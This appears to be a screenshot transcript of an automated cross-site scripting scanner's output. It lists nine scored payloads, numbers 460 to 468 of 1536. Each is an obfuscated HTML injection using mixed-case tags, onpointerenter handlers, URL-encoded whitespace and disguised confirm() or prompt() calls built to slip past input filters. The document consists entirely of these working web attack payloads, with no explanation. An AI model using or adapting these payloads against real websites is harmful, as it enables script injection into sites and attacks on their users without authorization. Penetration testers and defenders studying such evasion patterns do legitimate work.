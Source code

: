 ------------------------------------------------------------
 Payload: <DeTails/+/oNpOiNtereNTEr%0d=%0dconfirm()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 460/1536
 
------------------------------------------------------------
 Payload: <A%09ONpoiNTErEntEr%0a=%0a(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 461/1536
 
------------------------------------------------------------
 Payload: <DEtaIlS%0aOnPOINTErEnTer+=+confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 462/1536
 
------------------------------------------------------------
 Payload: <DeTAiLS/+/oNPoIntErENTer+=+(confirm)()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 463/1536
 
------------------------------------------------------------
 Payload: <a%09ONPOinTErEnteR+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 464/1536
 
------------------------------------------------------------
 Payload: <d3v%0aoNPoINtEReNtEr%0d=%0dconfirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 465/1536
 
------------------------------------------------------------
 Payload: <D3V%0donpoINTeRENTeR%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 466/1536
 
------------------------------------------------------------
 Payload: <Html%09onpoiNTEReNteR%09=%09a=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 467/1536
 
------------------------------------------------------------
 Payload: <d3V%0dONpoInTerEnTeR%09=%09[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 468/1536
 